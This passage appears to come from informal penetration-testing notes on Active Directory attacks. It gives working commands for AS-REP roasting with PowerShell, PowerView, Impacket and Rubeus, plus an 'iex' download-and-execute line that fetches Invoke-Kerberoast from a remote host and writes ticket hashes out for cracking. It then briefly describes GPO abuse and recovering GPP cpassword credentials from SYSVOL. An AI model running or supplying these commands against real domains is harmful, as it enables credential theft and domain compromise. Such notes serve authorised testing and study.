 > get-aduser -filter * -properties DoesNotRequirePreAuth | where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name

Using PowerView.ps1

> Get-DomainUser -PreauthNotRequired
> Get-DomainUser -UACFilter DONT_REQ_PREAUTH


- Using Impacket  (REmotely without authentication)

we require list of usernames on target. we can find those from kerbrute and supply here


        Without AUthentication

> sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py domain.name/ -dc-ip IPADDRESS -users kerbuser.txt -no-pass
   
              With Authentication                                                    OR 

> sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py domain.name/Machine1:Password1 -dc-ip IPADDRESS -users kerbuser.txt 


- Using Rubeus 

using rubeus is prefereed because it automatically enumerate users

> Rubeus.exe asreproast  (we can also specify specific user to target by adding /username:password in this command. also domain or domaincontroller)

                or
                
> iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
                

## GPO Abuse   

If we see GPO mentioned in bloodhound graph,then that means we can perform actions on behalf of that group policy object

SharpGPOAbuse is an excellent tool for GP related attacks           

## gpp attack (group policy preferences) MS14-025

In this attack we utilize a windows misconfiguration in which we can read credentials which admin stores in a xml file named Groups.xml. This policy is stored in SYSVOL share which is readbale by every authenticated domain user to access policies etc
we can get local admins and domain admins credentials which are utilizing the policies in SYSVOL share

we get password in a cpassword type but we can decrypt it from kali or online because the key to this encryption was leaked from microsoft

We can utilize metasploit module gpp enum to get passwords
